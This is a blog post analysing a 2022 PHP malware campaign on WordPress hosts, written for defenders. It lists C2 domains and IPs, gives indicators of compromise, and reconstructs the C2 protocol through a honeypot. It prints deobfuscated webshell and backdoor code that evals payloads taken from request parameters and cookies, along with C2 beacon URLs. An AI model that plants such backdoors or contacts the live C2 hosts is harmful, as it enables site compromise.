


---
title: Analyzing a December 2022 PHP malware campaign and reverse engineering C2 communications
date: "2022-12-28T08:49:06.115Z"
description: One of the largest shared-hosting companies in the USA told me that as much as 50%+ of their customer sites were impacted by a December 2022 malware campaign. This post analyzes an infected host and shows how reverse engineering the C2 protocol give a glimpse into how it works.
tags: ["Reverse Engineering", "Malware"]
published: true
---

Starting around December 1, 2022, thousands of Wordpress sites were infected in a malware campaign. One of the largest shared-hosting companies in the USA told me that as much as 50%+ of their customer sites were impacted. This post analyzes an infected host and shows how reverse engineering the C2 protocol gives a glimpse into how it works. The Virus Total collection for this analysis can be found [here](https://www.virustotal.com/gui/collection/9b8304f062e3ce294a50deb00512a8c40dc3cd24f9256c1c65ffc73f59adddbc).


# Summary

### Command and control (C2) URL's

* `http://3829-ch4-v26.zxckid.com` (198.204.250.114)
* `https://c.wiv3.com` (204.12.213.234)
* `https://c.oiv3.com` (204.12.213.234)
* `http://51la.izv3.com/a.txt` (185.198.56.4) <-- appears to show nothing on the page, but using view source you can see that PHP code is being sent in the response
* `http://51la.izv3.com/?d=<base64 encoded request object>` (185.198.56.4)
* `http://c.jkv2.com/1` (204.12.213.234, 107.150.63.18)
* `http://3843-ch4-v22.freeykc.com/` (173.208.218.154)


### Additional C2 IP addresses
* 104.193.10.31
* 68.178.221.131
* 49.236.200.213
* 151.80.67.229
* 187.103.250.210
* 23.83.247.59

### Indicators of compromise

1. A non-standard `.htaccess` file that only allows traffic to malicious files, such as:

```
<FilesMatch ".(py|exe|php)$">
 Order allow,deny
 Deny from all
</FilesMatch>
<FilesMatch "^(about.php|radio.php|index.php|content.php|lock360.php|admin.php|wp-login.php|wp-l0gin.php|wp-theme.php|wp-scripts.php|wp-editor.php)$">
 Order allow,deny
 Allow from all
</FilesMatch>
<IfModule mod_rewrite.c>
RewriteEngine On
RewriteBase /
RewriteRule ^index\.php$ - [L]
RewriteCond %{REQUEST_FILENAME} !-f
RewriteCond %{REQUEST_FILENAME} !-d
RewriteRule . /index.php [L]
</IfModule>
```

2. The presence of the non-standard Wordpress files listed in the `.htaccess` such as `about.php`, `/radio.php`, `lock360.php`, `admin.php`, `wp-l0gin.php`

3. Scanning for entropy using the following shell script:

```bash
echo "Getting entropy readings from all .php files"
rm -rf entropy.txt entropy.tmp.txt
for entry in $(find . -type f -name "*.php"); do
    entropy=$(ent $entry | sed -n 's/.*Serial correlation coefficient is //p' | sed "s/ .*//")
    echo "$entry $entropy" >> entropy.tmp.txt
done
sort -k2 -n entropy.tmp.txt > entropy.txt
rm -rf entropy.tmp.txt
echo "Entropy readings saved to entropy.txt"
```

This script outputs a file called `entropy.txt` with the files with the highest entropy at the top. This confirms what we already saw in `.htaccess`, where the infected files are spread out across the server, with the same names listed in the `FileMatch` of the malicious `.htaccess` file.

3. Obfuscated code inserted into standard files, such as `index.php` and `wp-login.php`, and newly created files with obfuscation in them (see examples of obfuscated code found on an infected server below)

4. If files on the server contain strings such as:
    * `MAMIMAMIHO`
    * `JS2022`
    * `SylVxy`
    * `yygpKyqbDRBS1wcA`
    * `\x47\x4c\x4f\x42\x41\x4c\x53`
    * `LaNHWRW0xciDdohvALwzxMl4rMnjlkrtJYb2WgT0qLpXXYXyxNnij5t6ieDGMNzrgaRWZQPuMYf2n9zt`
    * `O_0_O_OO00`
    * `c87PyXE0tNLsnMz7NyzskdHvTgUA`
    * `pqJf8tE3hI91PG7jjqev9dQmruSc`
    * `ZnVuY3Rpb25fZXhpc3RzLHRpbWUsZm9wZW4sZmlsZV9wdXRfY29udGVu`
    * `$p=$_COOKIE;(count($p)`

---------------------

# Infected files

Running `cat` on the files that were found in the filesystem from the above list that we got from the `.htaccess` and `entropy.txt` files show some malicious code in varying levels and methods of obfuscation.

##### `/index.php` and `/content.php`
`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da#index.php`

##### `/admin.php`
`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da/28c7de334d11b691df6910dc837471ceb5f86fe2#admin.php`

##### `/about.php` (similar to `admin.php`)
`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da/9d68a396f77dbf9ea202a882ed058f0ae19f6806#about.php`

##### `/radio.php`
`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da#radio.php`

##### `/wp-admin/network/index.php`, `/wp-includes/blocks/index.php`, `/wordpress/wp-content/index.php`, and `/wp-content/themes/index.php`
`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da#wp-admin-network-index.php`

##### `0bda96d.php` (randomly generated file created by `/radio.php`)

`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da#randomly-generated-file.php`

##### `/wp-content/themes/twentytwentyone/inc/wp-login.php`

`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da#wp-login.php`

##### `/lock360.php`

`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da#lock360.php`


---------------------

# Reverse engineering the infected files and C2 protocols

<!-- /wp-admin/network/index.php  -->

### `/wp-admin/network/index.php`

Reversing the first file at the top of our entropy list gives us the following:

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107/41c71c19ba2e77cfa79b39b1e4adceedcff7ef81#wp-admin-network-index.php`

This script acts as a C2 notifier, where it builds file paths to the malware on the infected server, specifically `/about.php?520` assigned to a property called `shell_link`, and `/admin.php` assigned to a property called `trojan`.

This code calls out to a C2 URL: `http://51la.izv3.com/a.txt` which (at the time of this post) *looks* like there's nothing being returned, however, when we inspect source, we see more malicious PHP code being returned that matches the PHP code that we found in on the infected server, specifically `/admin.php`, `/about.php`, and several other files. This makes sense, because the next thing this malware does is save the response from the C2 call to `/admin.php`. Then it gathers some information about the infected server and phones home to a different path on the same domain: `http://51la.izv3.com/?d=<serializsed, base64 encoded, properties>`. The properties that get serialized and encoded include the path to the current file, the victim's domain, the shell link to `/about.php?520`, and the trojan path to `/admin.php`. If the server responds with "*done*", it finds the root `/index.php` and overwrites any existing PHP code.

The attacker also gave themselves a way to delete the existing code via a query param called `del=my_code`.

We can reverse the C2 communication protocol by creating a URL that resolves to a honeypot site that we have control of and saves the requester IP address, `$_REQUEST` object, and `$_SERVER` object to a log file. We can take the same parameters that the malicious file used, and create a URL:

```php
<?php
$obj = array();
$obj["path"] = "/index.php";
$obj["domain"] = "<honeypot domain>.com";
$obj["shell_link"] = "https://<honeypot domain>.com/about.php";
$obj["trojan"] = "http://<honeypot domain>.com/admin.php";
echo "http://51la.izv3.com/?d=" . base64_encode(serialize($obj));
?>
```

Which returns:

```
http://51la.izv3.com/?d=YTo0OntzOjQ6InBhdGgiO3M6MTA6Ii9pbmRleC5waHAiO3M6NjoiZG9tYWluIjtzOjIxOiI8aG9uZXlwb3QgZG9tYWluPi5jb20iO3M6MTA6InNoZWxsX2xpbmsiO3M6Mzk6Imh0dHBzOi8vPGhvbmV5cG90IGRvbWFpbj4uY29tL2Fib3V0LnBocCI7czo2OiJ0cm9qYW4iO3M6Mzg6Imh0dHA6Ly88aG9uZXlwb3QgZG9tYWluPi5jb20vYWRtaW4ucGhwIjt9
```

Immediately after performing a `GET` request on the generated C2 URL, the honeypot log file started filling up with requests from this IP address: 104.193.10.31, with query parameters of: `ac=p&api=&path=&t=f610088ee31773d3a8ee99a6210882b4` being passed to the malicious files from the C2 server.

---------------------

<!-- /admin.php -->

### `/admin.php`

Since the last file we reversed had some code that was written out to an `/admin.php` file, we'll reverse this one next. It looks like this:

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107#admin.php`

Scanning through the file we see that this appears to be a webshell called *Zerion Mini Shell* that has been modified to expand the [already existing functionality](https://github.com/TheBinitGhimire/Web-Shells/blob/master/PHP/mini.php) with added malware at the top of the file.



As part of the new code for this shell, there are some checks for additional `$_REQUEST` params to perform what looks like another request to a new C2 URL. If `ac`, `path`, `api`, and `t` are passed into this file (the same query parameters that were  exposed via our honeypot log above), it will trigger a `GET` request to be made via `curl` to one of these C2 URL's: `https://c.wiv3.com/` or `https://c.oiv3.com/`. A function called `get_code()` is run which builds a URL from the `$_REQUEST` values that are passed in from the C2 server that looks like `https://c.wiv3.com/?api=&ac=&path=&t=`. From our logs above, we know the values `ac=p` and `t=f610088ee31773d3a8ee99a6210882b4`, making the URL: `https://c.wiv3.com/?api=&ac=p&path=&t=f610088ee31773d3a8ee99a6210882b4`. Performing a `GET` request to this URL gives us a response of:

```php
<?php
function i($i)
{
    echo '{->|' . $i . '|<-}';
}
$path = $_SERVER['SCRIPT_FILENAME'];
if(strpos($_SERVER['SCRIPT_FILENAME'], ":"))
{
    $path = str_replace('\\', '/', $path);
}
i(str_replace(str_replace('//','/',$_SERVER['PHP_SELF']), '', str_replace('\\\\','/',$path) ));
```

The C2 response is written to a temporary file and then included on the current file, making the current file output the following text: `{->|/home4/path/to/host/public_html/victimdomain.com|<-}`

This is most likely used by the attacker to understand where the malicious files are in the victim's server. As we saw above, after the victim domain is submitted to the C2, another request is made to `/admin.php` with these parameters, exposing the file path to the C2.

The last bit of custom functionality added to this web shell is the following code:

```typescript
if (isset($_REQUEST['pwd163']) && md5($_REQUEST['pwd163']) == $password_hash) {
    $malicious_query_param_payload = base64_decode(rawurldecode((urlencode(urldecode($_REQUEST['zzz'])))));
    $need = "<?php";
    if (strpos($malicious_query_param_payload, $need) === false) {
        $malicious_query_param_payload = $need . PHP_EOL . $malicious_query_param_payload;
    }
    if (isset($_REQUEST['e'])) {
        $malicious_query_param_payload = str_replace($need, "", $malicious_query_param_payload);
        eval($malicious_query_param_payload);
        die();
    }
    $file_name = tmpfile();
    fwrite($file_name, $malicious_query_param_payload);
    $require_params = stream_get_meta_data($file_name);
    @require($require_params['uri']);
    fclose($file_name);
    die();
}
```

If the C2 passes in the correct password hash in a request parameter called `pwd163`, it expects that a url encoded, base64 encoded payload is passed in via another `$_REQUEST` param called `zzz`. This payload is decoded and either executed straight on the current file via the PHP `eval()` function, or the payload is written to a temporary file, which is then required by the current file. Either of these options lead to the same behavior: arbitrary code execution.

---------------------

<!-- /index.php -->

### `/index.php`

After creating the honeypot site that logs all requests, and submitting the site to the C2 URL, many requests started coming in with different request parameters (as demonstrated in the request sent to `GET http://51la.izv3.com/` in the [`/wp-admin/network/index.php`](#wp-adminnetworkindexphp) section).

One of which was the following request:

```
Time: 2023-01-01 06:06:52pm
IP: 23.83.247.59
Request Obj:a:4:{s:2:"ac";s:5:"i_old";s:3:"api";s:31:"http://3843-ch4-v22.freeykc.com";s:4:"path";s:37:"/home4/path/to/host/public_html/<victim domain>.com";s:1:"t";s:32:"9e9a4d7fcd456b678f18e7397fbf47c6";}
```

Using these parameters we can build the following URL that would normally get created from the [`admin.php`](#adminphp-1) file: `http://c.oiv3.com?api=http://3843-ch4-v22.freeykc.com&ac=i_old&path=/home4/path/to/host/public_html/<victim domain>.com&t=9e9a4d7fcd456b678f18e7397fbf47c6`

Performing a `GET` on this URL gives us the following response:

`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da#index-initial-payload.php`

Of which, the long base64 encoded string at the top, gives us [the infected version of `index.php`](#indexphp-and-contentphp). Reversing the output of this on the root `/index.php` gives us the following:

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107#index.php`

In the first step, the code defines a `main()` function, passing in a new C2 domain of `http://3829-ch4-v26.zxckid.com`. The first non-parameterized step in `main()` is a function called `delete_robotstxt_and_overwrite_htaccess()`, which does a search for the `robots.txt` file and deletes it. Then, it searches for the `.htaccess` file and overwrites it with the same string that we found in the `.htaccess` file at the beginning of our analysis.

The second step calls the `create_data_transmit_request()` function to send information about the infected server back to the C2. In the transmit function, we see that there are a number of methods to phone home to the C2 server depending on what the infected server has available to it. This code can use: [`curl_init`](https://www.php.net/manual/en/function.curl-init.php), [`fsockopen`](https://www.php.net/manual/en/function.fsockopen.php), [`pfsockopen`](https://www.php.net/manual/en/function.pfsockopen.php), [`stream_socket_client`](https://www.php.net/manual/en/function.stream-socket-client.php), and [`socket_create`](https://www.php.net/manual/en/function.socket-create.php)

The equvilant `POST` request to the C2 would be something like:

```
Method: POST
URL: http://3829-ch4-v26.zxckid.com
Body:
{
    "domain": "<victim hostname>",
    "request_url": "/index.php",
    "user_agent": "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.0.0 Safari/537.36",
    "ip": "<ip of request originator>"
}
```

Which as of the time of writing this post, gives us a response of `eJxzzs8rSc0r0Q2pLEi1UihJrSjRzyjJzakBAHDCCSo=`.

Running this through the `decode_transmission()` function gives a string value of `Content-Type: text/html`. At this time, it would make the `decode_transmission()` function return early since the number of parameters returned is less than 2. But we can see that the expected parameters for this method would include a base64-encoded `data` string, allowing the C2 server to display whatever text/html they would want on the infected site.

<div class="info-block info">
    <p>
        <strong>Info</strong>  &rarr;  During the reversing process, a lot of <code>$GLOBALS</code> variables were removed for better readability. But the fact that <code>$GLOBALS</code> was being written to tells us that this will only work on older versions of PHP <a href="https://www.php.net/manual/en/reserved.variables.globals.php">since it was removed in PHP 8.1.0</a>
    </p>
</div>

There are some paramiterized checks that occur, the most interesting of which is a check for a request parameter called `pwd163`. If the value of `pwd163` is equal to the text who's MD5 hash is `226560a743d22857adddeb10aa38d571`, the following logic is executed:

```typescript
if (md5(trim($_REQUEST["pwd163"])) == "226560a743d22857adddeb10aa38d571") {
    $malicious_payload_str = base64_decode(rawurldecode((urlencode(urldecode($_REQUEST["zzz"])))));
    if (strpos($malicious_payload_str, "<?php") === false) {
        $malicious_payload_str = "<?php" . PHP_EOL . $malicious_payload_str;
    }
    if (isset($_REQUEST["e"])) {
        $malicious_payload_str = str_replace("<?php", "", $malicious_payload_str);
        eval($malicious_payload_str);
        die();
    }
    $tmp_file = tmpfile();
    fwrite($tmp_file, $malicious_payload_str);
    $tmp_file_metadata = stream_get_meta_data($tmp_file);
    @require($tmp_file_metadata["uri"]);
    fclose($tmp_file);
    die();
}
```

Essentially the same logic that we saw above takes an encoded malicious payload and either executes it on the current file, or writes it to a temporary file and includes the contents on the current file.

The second `pwd163` checks the value that has an MD5 hash of `2f7a76f71ff9e24be7c0015ff9cb81d8` and the existence of a query parameter called `sitemap`. If these values are passed in, the following code executes, submitting the infected server and all of the pages in the sitemap to Google's search engine to be indexed:

```typescript
if (md5($_REQUEST["pwd163"] . "a!#_11AA") == "2f7a76f71ff9e24be7c0015ff9cb81d8") {
    if (isset($_GET["sitemap"])) {
        $sitemap = $_GET["sitemap"];
        $google_or_incoming_url = "www.google.com";
        if (isset($_GET["google_or_incoming_url"])) {
            $google_or_incoming_url = $_GET["google_or_incoming_url"];
        }
        submit_to_google_index($google_or_incoming_url, $sitemap, $obj);
    }
}
```

The `submit_to_google_index()` function builds the equivalent of this URL: `https://www.google.com/ping?sitemap=https://<victim hostname>/<sitemap file>` which is [a well-documented Google Webmaster API](https://developers.google.com/search/docs/crawling-indexing/sitemaps/build-sitemap#addsitemap). Since the `robots.txt` file was deleted, Google will index all files.

---------------------

<!-- /radio.php -->
### `/radio.php`

The `/radio.php` files (files plural, because there were 291 `radio.php` files all through the infected server) is not obfuscated like the other files, but it *does* randomly generate new files that *are* highly obfuscated

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107#radio.php`

When this file is requested with a query parameter of `imam=doit`, a random number is generated between 20-30, and a loop is started that chooses numbers between 4 and the random number length - 2. These numbers are pushed into the `$key_store` array until it gets to the 5th iteration of the loop, then it inserts the random number that was generated at index 5.

We see some text get defined that will be used as the contents of two new files that will be written by `/radio.php`. One of which is an `.htaccess` file, and the other being a randomly generated filename that is either created in a subdirectory of `/wp-content`, or in whatever writeable subdirectory `/radio.php` can find.

A link is generated to the path of the file that was saved with a random name, then echoed out on `/radio.php`. It's likely that the C2 server would call the `/radio.php` file, triggering the obfuscated code to be saved in a randomly generated file, as well as the password that was used to create it.

We can use `curl` to mimic what the C2 would be seeing when it makes this request:

```shell{promptUser: josh}{promptHost: victimdomain.com}
curl "https://victimdomain.com/radio.php?imam=doit"
http://victimdomain.com////0bda96d.php 4-13-8-17-5-20
curl "https://victimdomain.com/radio.php?imam=doit"
http://victimdomain.com////9f4f700.php 21-28-23-15-11-30
```

The resulting files from these requests are:

```shell{promptUser: josh}{promptHost: victimdomain.com}
cat 0bda96d.php
<?php $p=$_COOKIE;(count($p)==20&&in_array(gettype($p).count($p),$p))?(($p[13]=$p[13].$p[8])&&($p[17]=$p[13]($p[17]))&&($p=$p[17]($p[4],$p[13]($p[5])))&&$p()):$p;
cat 9f4f700.php
<?php $p=$_COOKIE;(count($p)==30&&in_array(gettype($p).count($p),$p))?(($p[28]=$p[28].$p[23])&&($p[15]=$p[28]($p[15]))&&($p=$p[15]($p[21],$p[28]($p[11])))&&$p()):$p;
```

In order to find out what the attacker is doing, we need to understand what is inside the `$_COOKIE` variable.

Looking through the log file from the honeypot we created earlier, we see some requests being made with large `$_COOKIE` strings coming from several different IP's: 68.178.221.131, 49.236.200.213, 151.80.67.229, and 187.103.250.210.

One of the `$_COOKIE` values looks like:

```
1=13;2=13;3=13;4=13;5=13;6=13;7=13;8=13;9=13;13=13;14=13;15=13;16=13;17=13;18=13;19=13;20=13;Array25=Array25;array25=array25;67=b;80=ase64_decode;90=Y3JlYXRlX2Z1bmN0aW9u;51=;38=_COOKIE;29=ZGllKG1kNSg5OTg5KSk7;
```

With some knowledge of standard coding conventions, we can now deobfuscate this code:

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107#randomly-generated-file.php`

When executed, the file displays the following MD5 hash: `4fc8ed929e539525e3590f1607718f97`. This could be what the C2 eventually uses for the password hashes that belong to the other malware mentioned above. With code like this, the attacker is able to execute any arbitrary code on the victim's server by calling this file with any base64 encoded PHP in the `$_COOKIE` variable.

<!-- TODO: come back to this after running honeypot for a bit longer -->

---------------------

### `/wp-content/themes/twentytwentyone/inc/wp-login.php`

The last file that was found on this victim's server is another webshell called [Stitch](https://github.com/su18/Stitch).

`gist:joshterrill/5a7f73032d121ed6295b651e5cfff107#wp-login.php`

Since this file is only referenced in the `.htaccess`, and not in any of the other malware, I suspect this file was created by one of the other malware's methods of writing files to an infected server.



There's not much to say about this one, as I don't see that any obvious functions were added like in the previous shell. This particular shell gives much more functionality to an attacker, all of which is documented in Chinese on [this Github page](https://github.com/su18/Stitch). A translation of the main functions give us the following:

* File management
* Command execution
* Code execution
* Port scanning
* Database execution
* [`LD_PRELOAD`](https://www.baeldung.com/linux/ld_preload-trick-what-is)
* Notifications

---------------------

# `/lock360.php`

The last unique file found in the `.htaccess` is `lock360.php` which isn't as highly obfuscated as the other files, but still contains some very important functions to the attacker, and comes to us also from the honeypot we created.

The following request came in:

```
Time: 2023-01-01 06:06:51pm
IP: 23.83.247.59
Request Obj:a:4:{s:2:"ac";s:2:"cl";s:3:"api";s:0:"";s:4:"path";s:37:"/home4/path/to/host/public_html/<victim domain>.com";s:1:"t";s:32:"9e9a4d7fcd456b678f18e7397fbf47c6";}
```

Which creates the following request: `GET https://c.wiv3.com/?api=&ac=cl&path=/home4/path/to/host/public_html/<victim domain>.com&t=9e9a4d7fcd456b678f18e7397fbf47c6`

And the response:

`gist:joshterrill/2f99d3372c9d0df70b555e822b0357da/57b078cb06a7e53e6eeeafbc8d4df5f627a81d65#lock360.php`

This file serves as a way for the attacker to check what stage of infection a particular site is. We see that it has several regular expressions that check for different pieces of text or code, each identifying back to the C2 where a site is at in the infection process, or what *type* of infection has taken place. There are also functions in this code that let the attacker send a request to this script in order to clean up the infection and remove any existing malicious files.

